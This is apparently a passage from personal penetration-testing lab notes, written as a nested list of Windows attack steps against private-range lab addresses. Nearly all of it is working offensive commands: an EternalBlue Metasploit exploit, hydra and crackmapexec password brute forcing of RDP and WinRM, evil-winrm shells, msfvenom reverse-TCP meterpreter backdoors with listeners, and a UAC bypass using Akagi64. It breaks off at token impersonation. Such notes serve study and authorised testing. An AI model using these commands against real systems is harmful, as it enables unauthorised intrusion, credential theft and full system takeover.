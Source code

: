 			- eternal blue
				- `serch eternal blue`
				- `use exploit/windows/smb/ms17_010_eternalblue`
				- `set RHOSTS 192.168.31.131`
				- `exploit`
		- RDP
			- detecting it
			- `use auxiliary/scanner/rdp/rdp_scanner`
			- `set RHOSTS 10.4.18.131`
			- `set RPORT 3333`
			- `exploit`
			- Bruteforce it
				- ``hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.4.18.131 -s 3333``
			- Using it
				- `xfreerdp /u:administrator /p:qwertyuiop /v:10.4.18.131:3333`
		- WinRM
			- Brute force
				- `crackmapexec winrm 10.4.30.175 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
				- `crackmapexec winrm 10.4.30.175 -u administrator -p tinkerbell -x "whoami"`
				- `crackmapexec winrm 10.4.30.175 -u administrator -p tinkerbell -x "systeminfo"`
				- Command shell
					- `evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.4.30.175`
		- Privilege escalation
			- Windows Kernal Exploits
			    - Create payload `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=4444 -f exe -o payload.exe`
			    - Start server python3 -m http.server
			    - Download payload.exe
			    - `msfconsole`
			    - `use exploit/multi/handler`
			    - `set payload windows/x64/meterpreter/reverse_tcp`
			    - `set LHOST 192.168.31.128`
			    - `set LPORT 4444`
			    - `run`
			    - Got meterpreter session , run in it background
			- UAC bypass
				- Got meterpreter
				- `getuid`
				- `pgrep explorer`
				- `migrate 2708`
				- `getprivs`
				- `shell`
				- `net user`
				- `net localgroup administrators`
				- Access denied
				- Use UACMe Akagmi already present on the attack machine
				- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.4.2 LPORT=1234 -f exe > backdoor.exe`
				- `use multi/handler`
				- `set payload windows/meterpreter/reverse_tcp`
				- `set LHOST 10.10.4.2`
				- `set LPORT 1234`
				- `run`
				- Go to old meterpreter session
				- `cd C:\\\\`
				- `mkdir Temp`
				- `cd Temp`
				- `upload /root/backdoor.exe`
				- `upload /root/Desktop/tools/UACME/Akagi64.exe`
				- `Akagi64.exe 23 C:\\Temp\\backdoor.exe` - run both
				- - Migrate to a `NT AUTHORITY\\SYSTEM` service
				- ps -S lsass.exe
			- Accesss token impersonation